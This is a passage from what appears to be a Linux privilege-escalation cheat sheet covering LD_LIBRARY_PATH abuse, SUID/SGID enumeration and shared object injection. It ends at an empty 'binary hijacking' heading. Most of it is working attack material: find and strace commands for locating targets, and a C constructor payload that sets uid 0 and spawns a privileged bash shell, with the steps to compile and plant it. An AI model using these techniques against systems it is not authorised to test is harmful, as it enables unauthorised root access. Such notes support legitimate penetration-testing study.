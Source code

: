 Compiling *shared object*:

```shell
gcc -o libcrypt.so.1 -shared -fPIC library_path.c
```

Execute:

```shell
sudo LD_LIBRARY_PATH=. apache2
```

# SUIDandSGID

- enumeration: 
	- (*basic*) `find / -type f -perm /u=s,g=s -exec ls -l {} \; 2>/dev/null`
	- (*GTFOBins like*) `find / -type f -perm /u=s,g=s -exec ls -l {} \; 2>/dev/null | sed "s/.*\///" | sort`
- **NB**: `LD_PRELOAD` and `LD_LIBRARY_PATH` are disabled when a binary SUID is executed
- common attacks:
	- shell escape sequences: *[-> GTFOBins](https://gtfobins.github.io/)*
	- *[shared object injection](#SharedObjectionInjetion)*: check whether there are *shared objects* that are not correctly loaded
	- *[binary hijacking](#binaryhijacking)*
	- [abusing shell features](#abusingshellfeatures)
	- known exploits
- **check whether unknown binary SUID/SGIDs are present**

## SharedObjectionInjection

Steps:
1. check if there are any *shared objects* that are not properly loaded:
	- `strace <suid file> 2>/dev/null | grep -iE "open|access|no such file"`
2. check if we have write permission in the directories that programme tries to open such *shared object* 
3. you can use the following C source code:
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}
```
4. source code compiling:
	- `gcc -o <SO used by SUID binary> -shared -fPIC source.c`
5. execute binary:
	- `<binary SUID>`

## binaryhijacking
